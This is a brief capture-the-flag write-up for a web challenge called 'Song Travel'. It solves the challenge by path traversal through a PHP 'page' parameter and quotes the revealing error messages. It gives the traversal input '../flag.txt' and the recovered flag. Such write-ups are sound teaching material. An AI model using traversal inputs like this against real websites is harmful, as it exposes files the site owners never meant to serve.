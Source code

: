 # Song Travel
```
Songs help us travel across our imagination. Choose your favorite song and find the flag text file.
```
## Solution

The page has multiple `Song` tabs that each have a song, which all are useless.
Once you click on any song tab your can see in your url: `/index.php?page=song2`.
The question states `flag txt file` so we replace `song2` with `flag.txt` we get
```
Warning: fopen(./pages/flag.txt): failed to open stream: No such file or directory in /var/www/html/index.php on line 5

Warning: filesize(): stat failed for ./pages/flag.txt in /var/www/html/index.php on line 6

Warning: fread() expects parameter 1 to be resource, boolean given in /var/www/html/index.php on line 6

Warning: fclose() expects parameter 1 to be resource, boolean given in /var/www/html/index.php on line 7
```

Lets check if `flag.txt` is avilable in the the `pages` directory by `../flag.txt` by `/index.php?page=../flag.txt`. 
Now you will be able to see the flag `shellter{D0NT_TRUST_TH3_US3R}`. 
